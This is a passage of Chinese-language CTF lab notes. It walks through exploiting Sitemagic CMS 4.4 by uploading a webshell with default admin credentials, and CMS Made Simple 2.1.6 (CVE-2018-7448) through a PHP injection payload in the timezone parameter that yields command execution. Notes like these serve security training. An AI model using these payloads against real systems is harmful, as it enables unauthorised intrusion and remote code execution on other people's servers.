Sitemagic CMS v4.4 index.php?SMExt=SMFiles 存在任意文件上传漏洞，攻击者可上传恶意代码执行系统命令

admin/admin

/index.php?SMExt=SMFiles

直接上传webshell

/files/images/get_flag.phtml

![image-20230720105028002](%E9%9D%B6%E5%9C%BA.assets/image-20230720105028002.png)



## CVE-2018-7448 CMS Made Simple 2.1.6 RCE

*靶标介绍：*

CMS Made Simple 2.1.6版本存在代码注入漏洞，可以通过 timezone 参数执行任意代码

参考链接 https://blog.csdn.net/comingsoooooon/article/details/129948571

一步一步做就行

第四步

```
用burp截获数据包
将timezone的参数UTC改成
junk';echo%20system($_GET['cmd']);$junk='
```

安装完毕访问

/cms/config.php?cmd=cat%20/flag

![image-20230720111022816](%E9%9D%B6%E5%9C%BA.assets/image-20230720111022816.png)
